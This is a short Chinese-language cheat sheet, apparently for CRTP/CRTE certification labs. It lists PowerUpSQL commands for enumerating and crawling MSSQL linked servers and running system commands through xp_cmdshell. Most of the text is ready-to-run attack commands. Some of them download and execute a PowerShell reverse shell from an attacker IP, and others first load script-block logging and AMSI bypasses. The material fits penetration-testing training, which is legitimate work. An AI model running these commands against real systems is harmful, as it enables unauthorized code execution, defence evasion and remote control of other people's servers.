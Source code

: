 # MSSQL（CRTP,CRTE）

使用PowerupSQL.psd1

## 举当前账号是否有任何可用的mssql链接
```
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

## 检查当前账号是否有权限进入mssql
```
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded 
```

## 查看指定链接的信息
```
Get-SQLServerLink -Instance us-mssql.us.techcorp.local -Verbose
```

## 自动爬取数据库链接
```
Get-SQLServerLinkCrawl -Instance us-mssql -Verbose
```

## 对指定链接执行系统命令
```
Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''whoami'''
```

## 执行系统命令，返回一个rev shell

简单版本
```
Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query 'exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.66/Invoke-PowerShellTcp.ps1'')"'
```

绕过AMSI
```
Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.138/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.138/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.100.138/Invoke-PowerShellTcpEx.ps1)"'''
```

指定在db-sqlsrv上操作
```
Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.138/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.138/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.100.138/Invoke-PowerShellTcpEx.ps1)"''' -QueryTarget db-sqlsrv
```
